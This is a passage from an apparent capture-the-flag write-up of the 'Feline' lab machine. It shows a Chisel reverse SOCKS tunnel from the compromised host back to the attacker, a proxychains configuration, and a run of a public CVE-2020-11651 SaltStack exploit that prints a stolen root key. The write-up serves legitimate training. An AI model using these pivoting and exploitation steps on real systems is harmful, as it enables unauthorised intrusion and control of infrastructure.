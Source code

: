 More Google led to [this proof of
concept](https://github.com/jasperla/CVE-2020-11651-poc) on GitHub.

#### Tunnel

To access these ports, I need to run from Feline or tunnel. I uploaded
[Chisel](https://github.com/jpillora/chisel) to Feline and used it to
create a socks proxy. First I started the server on my host:



    root@kali:/opt/chisel# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/09/01 09:15:49 server: Reverse tunnelling enabled
    2020/09/01 09:15:49 server: Fingerprint be:f7:9d:b2:7f:8c:a4:60:51:43:9a:c3:3e:b1:34:fa
    2020/09/01 09:15:49 server: Listening on 0.0.0.0:8000...



Next the client:



    tomcat@VirusBucket:/var/tmp$ ./chisel_1.6.0_linux_amd64 client 10.10.14.15:8000 R:socks
    2020/09/01 17:03:56 client: Connecting to ws://10.10.14.15:8000
    2020/09/01 17:03:56 client: Fingerprint be:f7:9d:b2:7f:8c:a4:60:51:43:9a:c3:3e:b1:34:fa
    2020/09/01 17:03:56 client: Connected (Latency 11.653786ms)



The server shows this connection:



    2020/09/01 09:20:02 server: proxy#1:R:127.0.0.1:1080=>socks: Listening



#### Test Vulnerable

Running the script with no arguments does a check on localhost to see if
it's vulnerable. I'll use `proxychains` to tunnel through the Chisel
socks proxy. The proxies in `/etc/proxychains.conf` tell it to use
127.0.0.1:1080 as a socks5 proxy:



    [ProxyList]
    socks5  127.0.0.1 1080



Now I'll run the exploit with `proxychains`:



    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=



